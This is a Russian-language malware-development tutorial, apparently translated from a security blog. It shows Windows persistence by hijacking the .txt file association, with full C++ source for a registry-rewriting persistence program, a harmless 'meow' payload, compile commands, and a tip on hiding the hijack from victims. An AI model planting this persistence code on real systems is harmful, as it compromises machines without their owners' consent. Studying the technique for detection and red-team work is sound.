









\newpage
\subsection{75. Разработка вредоносного ПО: закрепление (persistence) - часть 9. Перехват ассоциации файлов. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных методов закрепления вредоносного ПО: перехват ассоциации файлов.    

### ассоциация файлов по умолчанию     

Например, при двойном щелчке по файлу `.txt`, он открывается с помощью `notepad.exe`.     

{width="80%"}    

Windows знает, что необходимо использовать `notepad.exe` для доступа к `.txt` файлам, потому что расширение `.txt` (и многие другие) привязано к приложениям, способным открывать такие файлы, в реестре: `HKEY_CLASSES_ROOT`.

Таким образом, можно перехватить ассоциацию файлов по умолчанию, чтобы выполнить вредоносную программу.     

### практический пример    

Давайте попробуем перехватить `.txt`. В этом случае обработчик расширения `.txt` указан в следующем ключе реестра:     

`HKEY_CLASSES_ROOT\\txtfile\\shell\\open\\command`    

Выполним команду:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

{width="80%"}    

Затем создадим "вредоносное" приложение:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как видите, логика довольно простая: просто всплывающее окно `meow-meow`.    

На следующем этапе мы перехватываем расширение `.txt`, изменяя значение `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` с помощью этого скрипта:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
    strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видно из исходного кода, мы просто заменяем `%SystemRoot%\system32\NOTEPAD.EXE %1` на `Z:\2022-08-26-malware-pers-9\hack.exe`.

### демонстрация

Посмотрим, как это работает. Компилируем наш вредоносный код:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Сгенерированный `hack.exe` необходимо загрузить на машину жертвы.    

Затем компилируем программу, отвечающую за закрепление:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Сгенерированный `pers.exe` также нужно поместить на машину жертвы.     

Затем просто запускаем:    

```powershell
.\pers.exe
```

{width="80%"}    

Теперь пробуем открыть `.txt` файл, например, двойным кликом по `test.txt`:     

{width="80%"}    

{width="80%"}    

Как видно, "вредоносное ПО" успешно выполняется. Отлично! :)    

Затем выполняем очистку:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

{width="80%"}    

В реальных вредоносных программах было бы хорошей практикой реализовать эту технику немного иначе, чтобы пользователь-жертва по-прежнему мог открывать оригинальный `.txt` файл, но при этом дополнительно запускал вредоносный код.     

Этот метод закрепления используется фреймворком [SILENTTRINITY](https://attack.mitre.org/software/S0692/) и кибершпионской группой [Kimsuky](https://attack.mitre.org/groups/G0094/). Это вредоносное ПО использовалось в кампании 2019 года против государственных агентств Хорватии неустановленными киберпреступниками.       

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       
